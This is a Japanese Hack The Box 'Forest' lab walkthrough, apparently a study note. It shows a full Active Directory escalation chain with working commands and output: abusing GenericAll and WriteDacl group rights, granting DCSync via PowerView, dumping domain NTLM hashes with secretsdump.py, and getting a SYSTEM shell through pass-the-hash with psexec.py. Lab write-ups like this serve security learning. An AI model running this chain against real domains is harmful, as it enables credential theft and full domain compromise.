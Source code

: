 参照：[Hack The Box - Forest Walkthrough](https://youtu.be/kcv9cH-nLq8)

## Exchange Windows Permissionsグループへの自身の追加と新規アカウント作成

svc-alfrescoのノードにおいて、`Reachable High Value Targes`をクリックした結果：

![スクリーンショット 2021-12-19 14 45 45](https://user-images.githubusercontent.com/85237728/146665370-fa20347c-7222-461b-81f7-c07421e7e608.png)

-> `ACCOUNT OPERATORS`のメンバは`EXCHANGE WINDOWS PERMISSIONS`に対して**GenericAll**である。つまり`EXCAHNGE WINDOWS PERMISSIONS`にユーザを作ったり、自分自身を追加したりできる。

（GenericAllのヘルプ）
> The members of the group ACCOUNT OPERATORS@HTB.LOCAL have GenericAll privileges to the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL.<br>This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

そして、`EXCHANGE WINDOWS PERMISSIONS`のメンバーは`HTB.LOCAL`に対して**WriteDacl**の権限がある！

（Write Daclのヘルプ）
> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL.
> <br>With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

まず、`net group`コマンドにて、`svc-alfresco`ユーザを`Exchange Windows Permissions`グループへ追加（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" svc-alfresco /add
The command completed successfully.
```

（`net group`や`whoami /groups`で確認）

注）addしたのにメンバーになってない場合は、一旦Evil-WinRMを^Cで抜けて、もう一度接続し直すとよい。

新規ドメインアカウントを作成する。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user shoebill Passw0rd! /add /domain
The command completed successfully.
```

新規ドメインアカウントshoebillを`EXCHANGE WINDOWS PERMISSIONS`に入れる（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Exchange Windows Permissions' shoebill /add
The command completed successfully.
```

（できれば、`Remote Management Users`にも属させておく）

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Remote Management Users' shoebill /add
The command completed successfully.
```

-> *ここまでで、まず自分svc-alfrescoを`Excange Windows Permissions`に配属させ、さらに`Exchange Windows Permissions`に新規のアカウント**shoebill**をも配属させた。*

## PowerView.ps1によるDCSync

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Import-Module .\PowerView.ps1
```
> To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity 'DC=htb, DC=local' -Rights DCSync
```
＝「**htb.local**のアカウント**shoeiblll**に**DCSync**のprivilegeを持たせる」

注）`Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity htb.local -Rights DCSync`ではエラー！（DCはDomain Component）.

> `Add-DomainObjectAcl`: Adds an ACL for a specific active directory object. This function modifies the ACL/ACE entries for a given Active Directory target object specified by `-TargetIdentity`.  These rights are granted on the target object for the specified `-PrincipalIdentity`.

DCSyncのprivielgeを持ったユーザが作成できたら、**secretsdump.py**でハッシュダンプ。

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py 'htb.local/shoebill:Passw0rd!@10.10.10.161'

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

最後にPass the HashでAdminのシェルゲット

```
┌──(kali㉿kali)-[~]
└─$ psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file zEmdPRll.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service saol on 10.10.10.161.....
[*] Starting service saol.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


DCSync攻撃とは？...**自分がドメインコントローラになりすますことでドメイン内のユーザハッシュが上記のように取れる。**

## 何度やってもできなかったら...

```
*Evil-WinRM* PS C:\Users\svc-alfresco> $pass = ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco> $cred = New-Object System.Management.Automation.PSCredential('htb\harmj0y',$pass)
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -Credential $cred -TargetIdentity 'DC=htb,DC=local' -PrincipalIdentity harmj0y -Rights DCSync
```

と設定してから

```
┌──(kali㉿kali)-[~] 
└─$ secretsdump.py 'htb.local/harmj0y:Passw0rd!@10.10.10.161'
```

を実行するとうまくいくかも（ここ：https://ranakhalil101.medium.com/hack-the-box-forest-writeup-w-o-metasploit-63070c9020e4 ではそうしてた。）

あと、Noriaki Hayashiさんのwriteupではntlm relayをやってた。




